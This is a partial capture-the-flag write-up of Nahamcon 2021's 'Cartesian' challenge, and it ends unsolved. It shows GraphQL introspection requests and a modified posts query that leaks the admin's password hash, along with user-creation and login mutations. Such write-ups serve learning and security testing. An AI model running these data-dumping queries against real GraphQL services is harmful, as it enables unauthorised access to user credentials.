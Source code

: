 # Nahamcon CTF 2021

## Cartesian

This challenge was part of the mission path.

The website is a blog kind of web UI. There's a graphql endpoint in `/graphql`. I didn't know about graphql and had to do my own research. There were quite a few past CTFs playing with this. [This resource](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/) was useful.

Turns out there are various ways to do instrospection, because the introspection features are still enabled on that challenge endpoint. For instance, querying for types returns:

```
"data":{"__schema":{"types":[{"name":"__TypeKind"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"Query"},{"name":"Post"},{"name":"User"},{"name":"__Schema"},{"name":"__Type"},{"name":"__Directive"},{"name":"__DirectiveLocation"},{"name":"Mutation"},{"name":"Boolean"},{"name":"Int"},{"name":"String"},{"name":"Auth"},{"name":"__Field"}
```

I then looked for existing queries via the following request

```
{"query":"{__type(name: \"Query\") {name fields { name type { name kind }}}}"}
```

The output reveals there's a `flag` scalar in GraphQL:

```
{"name":"flag","type":{"kind":"SCALAR","name":"String"}},
```

However a `{flag}` query claims only the admin can read it.

I dumped fully the graphql (kudos to https://apis.guru/graphql-voyager/) and explored types and type comments. I noticed a `password` field on `User`, interesting. Since the admin had posted blogs on the instance, I just modified the blog retrieving query to also dump the admin password:


```
{
"operationName":"UserQuery","variables":{},"query":"query UserQuery {\n  posts {\n    id\n    name\n    image\n    content\n    author {\n      username\n     password  __typename\n    }\n    __typename\n  }\n}\n"
}
```

That query leaks out admin password: `52a9715ba147f750d0751aeccc22b8cc2ff7a9db`. The graphql comments on the User database hints that this is `sha1(password:seed)`

I then looked into graphql mutations:

```
{"query":"mutation {createUser(username: \"foo\", password:\"bar\"){id username password}}"}
```

Creates a User.

And:

```
{"query":"mutation {authenticateUser(username: \"foo\", password:\"bar\"){token}}"}
```

authenticates the user. Checking what's returned, it's a JWT token. (you present it with `Authentication: Bearer <token>`)

Summarizing:

* There's a flag that can be dumped if I present an Admin auth token.
* I know the admin hashed password and its format. I do not know the seed.
* I can create an arbitrary amount of users / passwords
* I can log in as those users
* I can post content as those users.
* Posting content does not seem to trigger loading of images or links behind the scenes.

I was stuck after that. Remaining ideas:

* Identify a graphql injection path.
* Get to the seed, then to the original admin password.
